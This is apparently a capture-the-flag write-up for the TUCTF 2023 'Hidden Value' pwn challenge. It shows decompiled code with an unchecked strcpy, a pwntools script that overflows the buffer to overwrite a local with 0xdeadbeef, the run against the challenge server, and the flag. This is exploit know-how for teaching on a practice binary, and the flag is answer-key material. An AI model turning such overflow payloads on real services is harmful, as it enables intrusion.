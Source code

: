 # Hidden Value [298 Solves]

## Description

> There's a hidden value in this program, can you find it?
>
> `nc chal.tuctf.com 30011`
>
> Attachments: hidden-value

## Flag

TUCTF{pr4cti4l_buffer_overrun}

## Solution

```console
$ file hidden-value
hidden-value: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=54c8ec71703e58a595fc2f2d517fe1a393942512, for GNU/Linux 3.2.0, not stripped

$ checksec hidden-value
[*] '/root/ctf/TUCTF 2023/Pwn/Hidden Value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Decompiled whith Ghidra.

main:

```c
undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```

greet_user:

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == -0x21524111) {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

hidden_command:

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = (FILE *)FUN_004010e0(&DAT_00402041,&DAT_0040203f);
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```

If you input over 44 characters, the greet_user function will store a value in local_c beyond local_38.

```python
>>> hex(0x100000000 + -0x21524111)
'0xdeadbeef'
```

local_c should be input as 0xdeadbeef.

```python
# solver.py
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./hidden-value", checksec=False)


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("chal.tuctf.com", 30011)

    elif args.GDB:
        gdbscript = """
        b greet_user
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    io = conn()

    payload = b"A" * cyclic_find("laaa") + p64(0xDEADBEEF)

    io.sendlineafter(b"Enter your name:", payload)

    io.interactive("")


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py REMOTE
[+] Opening connection to chal.tuctf.com on port 30011: Done
[DEBUG] Received 0x11 bytes:
    b'Enter your name: '
[DEBUG] Sent 0x35 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000030  00 00 00 00  0a                                     │····│·│
    00000035
[*] Switching to interactive mode
 [DEBUG] Received 0x37 bytes:
    b'Congratulations! You have executed the hidden command.\n'
Congratulations! You have executed the hidden command.
[DEBUG] Received 0x2c bytes:
    b'The flag is: TUCTF{pr4cti4l_buffer_overrun}\n'
The flag is: TUCTF{pr4cti4l_buffer_overrun}
[*] Got EOF while reading in interactive
```
